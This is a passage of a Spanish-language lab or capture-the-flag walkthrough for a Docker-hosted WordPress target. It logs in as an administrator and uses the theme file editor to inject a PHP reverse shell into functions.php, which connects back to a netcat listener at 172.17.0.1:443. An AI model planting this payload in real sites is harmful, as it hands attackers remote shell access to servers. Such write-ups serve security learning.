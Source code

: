 Ahora con estas credenciales nos podemos conectar como administradores:
```bash
username: eviladmin
password: admin
```

Ahora nos iremos al apartado de **Appearance**
```bash
http://172.17.0.2/wp-admin/themes.php
```

Ahora entramos a **Thema File Editor**
```bash
http://172.17.0.2/wp-admin/theme-editor.php
```

Ahora estando en **funcions.php** inyectaremos una revershell de **php**:
### Intrusion
```bash
nc -nlvp 443
```

Ahora inyectamos este codigo en el archivo **funcions.php**
```bash
$sock=fsockopen("172.17.0.1",443);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

Asi quedareia el archivo final:
```php
# Reverse shell o acceso inicial
<?php
$sock=fsockopen("172.17.0.1",443);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
/**
 * Theme functions and definitions.
 * This child theme was generated by Merlin WP.
 *
 * @link https://developer.wordpress.org/themes/basics/theme-functions/
 */

/*
 * If your child theme has more than one .css file (eg. ie.css, style.css, main.css) then
 * you will have to make sure to maintain all of the parent theme dependencies.
 *
 * Make sure you're using the correct handle for loading the parent theme's styles.
 * Failure to use the proper tag will result in a CSS file needlessly being loaded twice.
 * This will usually not affect the site appearance, but it's inefficient and extends your page's loading time.
 *
 * @link https://codex.wordpress.org/Child_Themes
 */
function mslmsstartertheme_child_enqueue_styles() {
    wp_enqueue_style( 'ms-lms-starter-theme-style' , get_template_directory_uri() . '/style.css' );
    wp_enqueue_style( 'ms-lms-starter-theme-child-style',
        get_stylesheet_directory_uri() . '/style.css',
        array( 'ms-lms-starter-theme-style' ),
        wp_get_theme()->get('Version')
    );
}

add_action(  'wp_enqueue_scripts', 'mslmsstartertheme_child_enqueue_styles' );
```
